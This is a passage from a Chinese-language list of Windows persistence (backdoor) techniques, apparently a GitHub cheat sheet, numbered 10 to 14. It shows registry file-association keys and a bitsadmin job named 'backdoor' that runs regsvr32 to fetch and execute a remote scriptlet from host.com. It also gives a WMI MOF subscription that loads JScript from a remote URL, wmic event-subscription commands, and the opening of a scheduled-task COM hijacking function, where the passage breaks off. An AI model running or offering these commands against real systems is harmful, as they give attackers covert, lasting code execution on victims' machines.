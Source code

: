 ##### 10、文件关联 
```
HKEY_LOCAL_MACHINE\Software\Classes
HKEY_CLASSES_ROOT
```
##### 11、[bitsadmin](http://www.liuhaihua.cn/archives/357579.html) 
```
bitsadmin /create backdoor
bitsadmin /addfile backdoor %comspec% %temp%\cmd.exe
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://host.com/calc.sct scrobj.dll"
bitsadmin /Resume backdoor
```
##### 12、[mof ](https://evi1cg.me/archives/Powershell_MOF_Backdoor.html)
```
pragma namespace("\\\\.\\root\\subscription") 
instance of __EventFilter as $EventFilter
{
EventNamespace = "Root\\Cimv2";
Name = "filtP1";
Query = "Select * From __InstanceModificationEvent "
"Where TargetInstance Isa \"Win32_LocalTime\" "
"And TargetInstance.Second = 1";
QueryLanguage = "WQL";
}; 
instance of ActiveScriptEventConsumer as $Consumer
{
Name = "consP1";
ScriptingEngine = "JScript";
ScriptText = "GetObject(\"script:https://host.com/test\")";
}; 
instance of __FilterToConsumerBinding
{
Consumer = $Consumer;
Filter = $EventFilter;
};
```
管理员执行：
```
mofcomp test.mof
```
##### 13、[wmi](https://3gstudent.github.io/3gstudent.github.io/Study-Notes-of-WMI-Persistence-using-wmic.exe/) 

每隔60秒执行一次notepad.exe
```
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="BotFilter82", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="BotConsumer23", ExecutablePath="C:\Windows\System32\notepad.exe",CommandLineTemplate="C:\Windows\System32\notepad.exe"
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"BotFilter82\"", Consumer="CommandLineEventConsumer.Name=\"BotConsumer23\""
```
##### 14、[Userland Persistence With Scheduled Tasks](https://3gstudent.github.io/3gstudent.github.io/Userland-registry-hijacking/)  
劫持计划任务UserTask，在系统启动时加载dll
```
function Invoke-ScheduledTaskComHandlerUserTask
{
[CmdletBinding(SupportsShouldProcess = $True, ConfirmImpact = 'Medium')]
Param (
```